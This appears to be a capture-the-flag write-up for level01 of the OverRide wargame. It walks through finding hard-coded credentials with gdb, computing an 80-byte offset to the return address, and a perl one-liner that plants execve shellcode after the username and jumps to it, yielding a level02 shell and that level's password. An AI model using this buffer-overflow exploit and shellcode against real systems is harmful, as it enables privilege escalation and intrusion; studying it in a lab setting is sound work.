 # level01

```
level01@OverRide:~$ gdb -batch -ex "x/s 0x80486a8" level01
0x80486a8:	 "dat_wil"
level01@OverRide:~$ gdb -batch -ex "x/s 0x80486b0" level01
0x80486b0:	 "admin"
```
By inspecting the address of string literal, we got the username `dat_wil` and password `admin`.

```
level01@OverRide:~$ ./level01
********* ADMIN LOGIN PROMPT *********
Enter Username: dat_wil
verifying username....

Enter Password:
admin
nope, incorrect password...
```
The username is correct, but we couldn't login.

```
bottom of                                                            top of
memory                                                               memory
         esp+0x1c     esp+0x60
<------     [   buffer   ][ padding ][ ebp ][ return addr ]
                  68           8        4          4
top of                                                            bottom of
stack                                                                 stack
```
The binary stores user password to a buffer which begins at esp+0x1c, so we need `0x60 - 0x1c + 0x8 + 0x4 = 0x50 (80)` to reach the return address.

```
level01@OverRide:~$ objdump -j .bss -d level01
[...]
0804a040 <a_user_name>:
```
`0x0804a040` is the address of global variable `a_user_name` which stores input username, we concatenate [shellcode](http://shell-storm.org/shellcode/files/shellcode-219.php) after the username `dat_wil` then use the address to access it.

```
level01@OverRide:~$ perl -e 'print "dat_wil\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80\n" . "A"x80 . pack("V", 0x804a047)' | ./level01
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password:
nope, incorrect password...

$ whoami
level02
$ cat /home/users/$(whoami)/.pass
PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv
```
